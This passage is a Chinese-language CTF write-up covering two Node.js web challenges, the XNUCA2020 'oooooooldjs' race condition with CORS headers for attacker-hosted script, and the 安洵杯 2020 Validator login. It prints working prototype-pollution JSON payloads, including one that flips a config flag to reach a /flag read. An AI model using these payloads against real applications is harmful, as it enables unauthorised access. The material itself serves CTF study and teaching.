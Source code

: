 ![image-20201022121557273](https://github.com/NeSE-Team/XNUCA2020Qualifier/raw/main/Web/oooooooldjs/assets/image-20201022121557273.png)

我们可以利用异步函数导致的数据不一致发送一些恶意请求，构造`this.types`和`this.datas`中间一端像这个样子

![image-20201022151504944](https://github.com/NeSE-Team/XNUCA2020Qualifier/raw/main/Web/oooooooldjs/assets/image-20201022151504944.png)

然后让题目访问我们自己的url；由于后端request请求的是本地环回速度很快，所以为了在`dataRepo.D`中request没结束时构造好我们想要的数据形式，需要`dataRepo.D`中requests耗时比我们构造的时间久，比如先post一些链表形式串起来的数据，比如

![image-20201022131845955](https://github.com/NeSE-Team/XNUCA2020Qualifier/raw/main/Web/oooooooldjs/assets/image-20201022131845955.png)

然后再发起链表头数据的DELETE请求，让requests进行递归的删除，这样就可以通过这个链表的长度从而控制requests花费的时间，让requests耗费的时间符合我们的预期；链表的实际长度需要根据不同的网络状况进行调整

###### 跨域问题

设置请求头时除了有`text/javascript`以外还要另外设置允许跨域访问的请求头

```js
res.setHeader("Content-Type", "text/javascript")
res.setHeader("Access-Control-Allow-Origin", "*")
res.setHeader("Access-Control-Allow-Headers", "X-Requested-With, crossDomain")
```

[详细的exp&docker见官方仓库](https://github.com/NeSE-Team/XNUCA2020Qualifier/tree/main/Web/oooooooldjs)

###### 关于任意原型链污染

由于出题人加了个json的中间件允许传入object，导致可以做到任意污染（这下格局打开了）

```json
{"block": {"__proto__": {"a": 123}}, "block\"].__proto__[\"a": 123}
```

##### [安洵杯 2020]Validator

https://xz.aliyun.com/t/8581#toc-2

```js
if (req.body.password == "D0g3_Yes!!!"){
        console.log(info.system_open)
        if (info.system_open == "yes"){
            const flag = readFile("/flag")
            return res.status(200).send(flag)
        }else{
            return res.status(400).send("The login is successful, but the system is under test and not open...")
        }
    }else{
        return res.status(400).send("Login Fail, Password Wrong!")
    }
```

利用上面任意原型链污染的点来使`info.system_open`为真

```json
{"password":"D0g3_Yes!!!", "a": {"__proto__": {"system_open": "yes"}}, "a\"].__proto__[\"system_open": "yes" }
```
